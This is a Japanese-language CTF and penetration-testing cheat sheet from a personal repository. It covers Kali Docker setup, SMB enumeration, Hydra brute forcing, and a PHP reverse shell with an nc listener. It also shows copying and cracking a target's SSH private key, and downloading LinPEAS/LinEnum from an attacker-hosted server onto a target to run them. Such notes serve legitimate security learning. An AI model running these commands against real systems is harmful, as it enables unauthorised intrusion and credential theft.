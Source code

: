 //////////////////////////////
// Settings
//////////////////////////////
:idprefix:
:idseparator: -
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]

//////////////////////////////
// Contents
//////////////////////////////
= CTF

[CAUTION]
====
KtokKawuは、自衛や検証/CTFのため、ハッキング技術を学習しています。 +
自分の管理外の端末や機器(一般に公開されているWebサイトや各種サーバやWi-Fiスポット、他人の端末や機器等)に対し、 +
非合法な目的で本リポジトリで公開しているツール類やテクニックを使用しないこと。 +
必ず自己責任の元、ローカル環境やCTF等で攻撃が許可されたサイトに対してのみ使用すること。 +
KtokKawuは、本リポジトリを利用する他のユーザや企業、団体等が起こした全ての事象に関して一切責任を負いません。
====

== Kali Dockerコンテナの作成

=== 初回の手順

[PowerShell/CMD]
----
# Kali Linuxの公式イメージDL
docker pull kalilinux/kali-rolling
docker images
# Dockerfileを使用する場合
docker image build -t kalilinux/kali-rolling:latest C:\path\to\Dockerfile
# コンテナ(初回)起動
docker run -it --name <C-NAME> kalilinux/kali-rolling
docker exec -it <CID> /bin/bash
# リポジトリの登録
echo "deb http://http.kali.org/kali kali-rolling main contrib non-free" > /etc/apt/sources.list \
&& echo "deb-src http://http.kali.org/kali kali-rolling main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-last-snapshot main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-experimental main contrib non-free" >> /etc/apt/sources.list
# Kali Linuxのパッケージインストール
apt -y update && apt -y upgrade
apt install -y kali-linux-full
# 他ツール、ライブラリ
apt install -y bash-completion build-essential bzip2 colordiff colortail curl exiftool gdb git iputils-ping iputils-tracepath jq libjpeg-dev libssl-dev libxml2-dev libxslt1-dev ltrace mariadb-client net-tools nodejs npm postgresql python-dev rlwrap smbclient steghide strace telnet tor vim wget yarnpkg zip zlib1g-dev
# apt install -y bash-completion build-essential bzip2 colordiff colortail libjpeg-dev libssl-dev nikto nmblookup pip python-pybloomfiltermmap rpcclient
# Setup gdb-peda
git clone https://github.com/longld/peda.git ~/peda \
&& echo "source ~/peda/peda.py" >> ~/.gdbinit
# Setup nmap CVE script
# Option Usage: --script=vulscan/vulscan.nse www.example.com
git clone https://github.com/scipag/vulscan ~/scipag_vulscan \
&& ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
# Install and configure AutoRecon
mkdir /tools \
&& git clone --depth 1 https://github.com/Tib3rius/AutoRecon.git /tools/AutoRecon \
&& cd /tools/AutoRecon \
&& pip3 install -r requirements.txt \
&& ln -s /tools/AutoRecon/src/autorecon/autorecon.py /usr/local/bin/autorecon
# Get some scripts
git clone https://github.com/pentestmonkey/php-reverse-shell ~/prh \
&& git clone https://github.com/lucyoa/kernel-exploits ~/exploits/ksploits \
&& git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/exploits/peass \
&& git clone https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack ~/exploits/unixploits \
&& git clone https://github.com/danielmiessler/SecLists /usr/share/seclists \
&& git clone https://github.com/andresriancho/w3af.git /opt/w3af \
/opt/w3af/w3af_console ; \
bash /tmp/w3af_dependency_install.sh ; \
echo 'export PATH=/opt/w3af:$PATH' >> /etc/profile
# Get Password list
mkdir ~/pwd-list \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/john.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/cain.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/conficker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/twitter-banned.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpbb.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/myspace.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hotmail.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/faithwriters.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/elitehacker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hak5.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/alypaa.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-pastebay.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porn-unknown.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/tuscl.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-phished.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/carders.cc.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/singles.org.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/english.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/german.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/us_cities.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porno.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/honeynet.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/file-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/fuzzing-strings.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpmyadmin-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-extensions.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-mutations.txt.bz2 \
&& bzip2 -d ~/pwd-list/*.bz2
# コンテナ保存
docker stop <CID>
docker rename <CID> <C-NAME>
docker commit <CID> <REPO-NAME>:<TAG-NAME>
# コンテナ起動(ホスト側へポートフォワード)
docker images
docker run --name <C-NAME> -itd -p <HOST-PORT>:<C-PORT> /bin/bash <REPO-NAME>:<TAG-NAME>
docker ps -a
# 不要なコンテナ、イメージ削除
docker rm -f <CID>
docker rmi -f <IID>
----

=== 2回目以降のコンテナ利用

[PowerShell/CMD]
----
# コンテナ接続
docker exec -it <C-NAME> /bin/bash
# コンテナ開始/停止/再起動
docker stop/start/restart <C-NAME>
# IP確認
docker inspect --format '{{ .NetworkSettings.IPAddress }}' <C-NAME>
----
  
=== 注意事項

* Windows Firewallの受信規則のうち、パブリックの「com.docker.backend」が有効だと、 +
リバースシェルを張る時などのインバウンド通信が失敗してしまう。Linuxで構築する場合も同様。

== ハッキング技術メモ

=== ポートとOSSバージョンの確認

.SMBの例
----
https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b
nmap -sC -p 139,445 -sV [TargetIP]
----

=== CVEのチェック

----
git clone https://github.com/scipag/vulscan scipag_vulscan
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
nmap -sV -p [TargetPort] --script=vulscan/vulscan.nse www.example.com [TargetIP]
----

=== ログイン施行

★そのうち書く

=== Steganography

----
exiftool nothing.jpg
binwalk -e nothing.jpg
foremost nothing.jpg
steghide extract -sf nothing.jpg -p [password]
steghide --info nothing.jpg
----

=== SMB Attack

==== Tools

|===
|nmblookup|NetBIOS名の検索に使用されるNetBIOS over TCP / IPクライアントを収集
|smbclient|SMB共有ディレクトリにアクセスするftpのようなクライアント
|nmap|ポートスキャナ with スクリプト
|rpcclient|クライアント側のMS-RPC機能を実行するツール
|enum4linux|さまざまなsmb関数を列挙
|wireshark|「ntlmssp.ntlmv2_response」でフィルタリングしてNTLMv2のトラフィックからsmbの情報を取得可能
|===

==== チェックリスト

* ホスト名の確認
+
----
# -A オプション：look up by IP address
nmblookup -A [ip]
----
+
* 共有フォルダの一覧
+
----
# ホスト上の共有フォルダ一覧とアクセス権を表示
smbmap -H [ip/hostname] -R
# SMBからファイルを取得
smbmap -H [ip/hostname] -R --download '.\Anonymous\staff.txt'
# 資格情報を取得後に再実行し、新しいアクセス権を表示
smbmap -H [ip] -d [domain] -u [user] -p [password]
# nullログインをチェックするため、"exit"は現れる可能性のある全PW要求を処理する
# -L オプション：指定されたホストの共有のリストを取得します
echo exit | smbclient -L \\\\[ip]
# --script smb-enum-shares：特定のsmb列挙スクリプト
# -p 139,445：smbポートの指定
nmap --script smb-enum-shares -p 139,445 [ip]
----
+
* NULLセッションでの確認
+
----
# 資格情報無しで何ができるか確認
smbmap -H [ip/hostname]
# 本コマンドの後、RPCコマンドを入力してみる
# -U ""：NULLセッション
# -N オプション：PWD無し
rpcclient -U "" -N [ip]
# 共有フォルダへの接続試行、空PWDでも行ける可能性有り。
smbclient \\\\[ip]\\[share name]
----
+
* 脆弱性の確認
+
----
# --script smb-vuln*：全smb脆弱性スキャンスクリプトを実行
nmap --script smb-vuln* -p 139,445 [ip]
----
+
* SMB全体のスキャン
+
----
enum4linux -a [ip]
----
+
上記内容の確認で注目する内容は下記。
+
. nmblookup同様の出力
. nullセッションのチェック
. 共有フォルダのリスト
. ドメイン情報
. パスワードポリシー
. RIDサイクリング出力
* 手操作確認 +
smbのバージョンを取得するスクリプト
+
.smbver.sh
----
#!/bin/sh
# Author: rewardone
# Description:
#   Requires root or enough permissions to use tcpdump
#   Will listen for the first 7 packets of a null login and grab the SMB Version
# Notes:
#   Will sometimes not capture or will print multiple lines.
#   May need to run a second time for success.
# Usage:
#   smbver.sh [IP] (port) [Samba]
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'aUnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
----
+
上記スクリプトの結果が疑わしい時は、PCAPファイルから、smbバージョンを確認
+
----
# 例：Unix Samba 2.2.3a
check pcap
----

=== ディレクトリ検査

----
gobuster -e -u http://A.B.C.D/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -s 200,301,302,403,404 -e -x html,php,txt -l -o ./result_gobuster.txt
----

=== Bruteforce Attack

----
# -Vオプション：PWDマイニング中に2つのログイン+パスワードを表示
# -fオプション：指定したPWDが見つかったら停止
hydra -l [uname] -P ./pwd-list/[pwdtext] [IP] [Protocol] -V -f
# 効率的には、およそssh(2/s) < ftp(6/s) < http-basic(100/s)の速さ
----

=== Penetration

==== PHPリバースシェル

===== Scripts

https://github.com/pentestmonkey/php-reverse-shell

===== 手順

----
vim php-reverse-shell.php # change "$ip" value to [MyHostIP]
rlwrap nc -lvnp 1234
# Uploading PRS file & Web Access
----

==== RSAプライベートキーのクラック

----
scp target-user@target-IP:/home/target-user2/.ssh/id_rsa /root/
/usr/share/john/ssh2john.py ./id_rsa > crack
john --format=SSH --wordlist=./rockyou.txt crack
john crack --show
chmod 600 id_rsa
----

=== 権限昇格

==== Scripts

. https://github.com/lucyoa/kernel-exploits
. https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
. https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
. https://github.com/rebootuser/LinEnum

==== 手順

* ターゲット側でスクリプトを実行する際は、 +
使っているユーザ権限で自由にファイル授受できるディレクトリに移動するとよい。
+
.権限の緩いディレクトリの例
----
/var/tmp
/dev/shm
/var/lock
/run/lock
----

==== LinPEAS

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python -m SimpleHTTPServer [MyHostPort]

# ターゲット側 
cd /var/tmp
wget http://[MyHostIP]:[MyHostPort]/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
----

===== LinEnum

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python -m SimpleHTTPServer [MyHostPort]

# ターゲット側
cd /var/tmp
which wget
wget [MyHostIP]:[MyHostPort]/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
----
